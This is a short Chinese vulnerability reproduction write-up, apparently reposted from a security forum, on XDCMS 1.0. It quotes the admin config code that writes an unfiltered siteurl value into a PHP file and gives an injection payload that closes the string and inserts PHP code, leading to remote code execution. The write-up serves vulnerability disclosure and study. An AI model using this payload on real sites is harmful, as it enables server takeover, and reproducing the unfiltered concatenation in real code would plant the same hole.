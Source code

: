 # XDCMS 1.0 后台配置文件getshell

> 原文：[https://www.zhihuifly.com/t/topic/3279](https://www.zhihuifly.com/t/topic/3279)

# XDCMS 1.0 后台配置文件getshell

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

![image](img/3988f8dd1cc9fd1956bf8557fbccccfe.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

```
if($tag=='config'){
    //判断url是否以/结尾
    $urlnum=strlen($info['siteurl'])-1;
    if(substr($info['siteurl'],$urlnum,1)!="/"){
        showmsg(C("update_url_error"),"-1");
    }//end

```
$cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
$cmsurl="&lt;?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?&gt;";
creat_inc($cms,$cmsurl); 
``` 
```

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

```
<?php
 define('CMS_URL','http://127.0.0.5/');
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里我们可以构造siteurl：

```
hello');?><?php phpinfo();?> 
```

点击保存后，我们去查看一下该配置文件：

```
<?php
 define('CMS_URL','hello');?><?php phpinfo();?>';
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![image](img/e4baad37300c171b6c8e86e50c4d094d.png)
